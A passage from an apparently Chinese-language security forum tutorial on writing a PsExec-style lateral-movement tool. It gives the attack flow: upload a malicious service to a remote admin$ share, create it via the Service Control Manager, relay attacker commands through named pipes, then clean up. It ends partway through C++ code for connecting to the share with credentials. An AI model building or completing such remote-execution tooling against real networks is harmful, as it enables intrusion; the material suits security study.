 [![vQLJXD.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-26cd88f91915c17cc82f6b71249ed601ff4b5f76.png)](https://imgtu.com/i/vQLJXD)

0x03 代码实现
=========

通过上面的分析，可以列一个代码的执行流程：

1. 连接SMB共享
2. 上传一个恶意服务文件到共享目录
3. 打开SCM创建服务
4. 启动服务 
    1. 服务创建输入输出管道
    2. 等待攻击者连接管道
    3. 从管道读取攻击者的命令
    4. 输出执行结果到管道
    5. 跳转到 3
5. 删除服务
6. 删除文件

连接SMB共享
-------

连接SMB共享需要用到`WNetAddConnection`

```php
The WNetAddConnection function enables the calling application to connect a local device to a network resource. A successful connection is persistent, meaning that the system automatically restores the connection during subsequent logon operations.
```

`WNetAddConnection`只支持16位的Windows，更高位的需要使用`WNetAddConnection2`或`WNetAddConnection3`

[WNetAddConnection2A](https://docs.microsoft.com/en-us/windows/win32/api/winnetwk/nf-winnetwk-wnetaddconnection2a)

```php
DWORD WNetAddConnection2A(
  [in] LPNETRESOURCEA lpNetResource,    // 一个指向连接信息结构的指针
  [in] LPCSTR         lpPassword,       // 密码
  [in] LPCSTR         lpUserName,       // 用户名
  [in] DWORD          dwFlags           // 选项
);
```

接下来就可以实现一个连接SMB共享的函数`ConnectSMBServer`

```c++
DWORD ConnectSMBServer(LPCWSTR lpwsHost, LPCWSTR lpwsUserName, LPCWSTR lpwsPassword) {
    // SMB shared resource.
    PWCHAR lpwsIPC = new WCHAR[MAX_PATH];
    // Return value
    DWORD dwRetVal;
    // Detailed network information
    NETRESOURCE nr;
    // Connection flags
    DWORD dwFlags;

    ZeroMemory(&nr, sizeof(NETRESOURCE));
    swprintf(lpwsIPC, 100, TEXT("\\\\%s\\admin$"), lpwsHost);

    nr.dwType = RESOURCETYPE_ANY;
    nr.lpLocalName = NULL;
    nr.lpRemoteName = lpwsIPC;
    nr.lpProvider = NULL;

    dwFlags = CONNECT_UPDATE_PROFILE;

    dwRetVal = WNetAddConnection2(&nr, lpwsPassword, lpwsUserName, dwFlags);
```